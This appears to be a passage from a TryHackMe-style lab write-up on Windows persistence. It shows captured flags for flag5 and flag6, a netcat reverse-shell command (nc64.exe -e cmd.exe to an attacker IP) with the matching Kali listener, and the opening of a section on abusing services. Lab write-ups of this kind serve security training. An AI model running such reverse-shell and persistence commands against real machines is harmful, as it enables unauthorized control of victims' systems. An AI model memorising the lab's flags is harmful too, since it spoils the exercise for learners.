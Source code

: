 ```
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>cd C:\flags
cd C:\flags

C:\flags>.\flag5.exe
.\flag5.exe
THM{NO_SHORTCUTS_IN_LIFE}

```


Insert flag5 here
*THM{NO_SHORTCUTS_IN_LIFE}*

```
PS C:\Users\Administrator> Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.11.81.220 4448"
PS C:\Users\Administrator> C:\Windows\system32\NOTEPAD.EXE $args[0]

┌──(kali㉿kali)-[~/payloads]
└─$ nc -lvp 4448
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4448
Ncat: Listening on 0.0.0.0:4448
Ncat: Connection from 10.10.170.100.
Ncat: Connection from 10.10.170.100:49804.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>cd C:\flags
cd C:\flags

C:\flags>.\flag6.exe
.\flag6.exe
THM{TXT_FILES_WOULD_NEVER_HURT_YOU}


```
![[Pasted image 20220911154731.png]]

![[Pasted image 20220911154552.png]]
Insert flag6 here
*THM{TXT_FILES_WOULD_NEVER_HURT_YOU}*

### Abusing Services 

Windows services offer a great way to establish persistence since they can be configured to run in the background whenever the victim machine is started. If we can leverage any service to run something for us, we can regain control of the victim machine each time it is started.

A service is basically an executable that runs in the background. When configuring a service, you define which executable will be used and select if the service will automatically run when the machine starts or should be manually started.
